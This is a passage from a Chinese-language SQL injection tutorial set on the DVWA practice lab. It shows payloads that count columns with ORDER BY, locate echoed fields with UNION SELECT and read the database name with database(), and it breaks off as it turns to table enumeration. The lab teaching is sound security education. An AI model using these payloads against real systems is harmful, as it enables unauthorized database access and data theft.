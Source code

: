 猜测字段数目就需要使用SQL语句的关键词order by。借助order by来知晓字段数。

payload：

```sql
id=1 order by 1 #&Submit=Submit
id=1 order by 2 #&Submit=Submit
id=1 order by 3 #&Submit=Submit
```

![](D:\Document\My_book\My_Books\钟全龙著\img\屏幕截图 2023-03-23 153248-1684374084197-36.png)

![](D:\Document\My_book\My_Books\钟全龙著\img\屏幕截图 2023-03-23 153309-1684374084197-37.png)

![](D:\Document\My_book\My_Books\钟全龙著\img\屏幕截图 2023-03-23 153324-1684374084197-38.png)

当输入3的时候返回了一条语句**Unknown column '3' in 'order clause'**没有第三列，说明只存在两个字段。

##### 回显信息

回显信息需要用到union联合查询语句，借助联合查询来获取信息。

payload：

```sql
id=1 union select 1 #&Submit=Submit
id=1 union select 1,2 #&Submit=Submit
id=1 union select 1,2,3 #&Submit=Submit
```

![](D:\Document\My_book\My_Books\钟全龙著\img\屏幕截图 2023-03-23 153730-1684374084197-39.png)

![](D:\Document\My_book\My_Books\钟全龙著\img\屏幕截图 2023-03-23 153657-1684374084197-40.png)

![](D:\Document\My_book\My_Books\钟全龙著\img\屏幕截图 2023-03-23 153713-1684374084197-41.png)

只有第二条语句做出了回显，更加确信这是两个字段，回显出了信息1，2，和admin、admin。

#### 获取数据库名

获取数据库的名字要借助函数database，该函数会返回当前使用的数据库的名字。当前网页使用的数据库的名字就会暴露。

payload：

```sql
id=1 union select 1,database() #&Submit=Submit
```

![](D:\Document\My_book\My_Books\钟全龙著\img\屏幕截图 2023-03-23 154258-1684374084197-42.png)

此时返回了一条关键的信息，DVWA，说明数据库的名字叫做dvwa。

#### 获取数据表名

若要获取数据表的名字就需要关键字information_schema,table_name等关键字，还需要借助函数group_concat()。

payload：

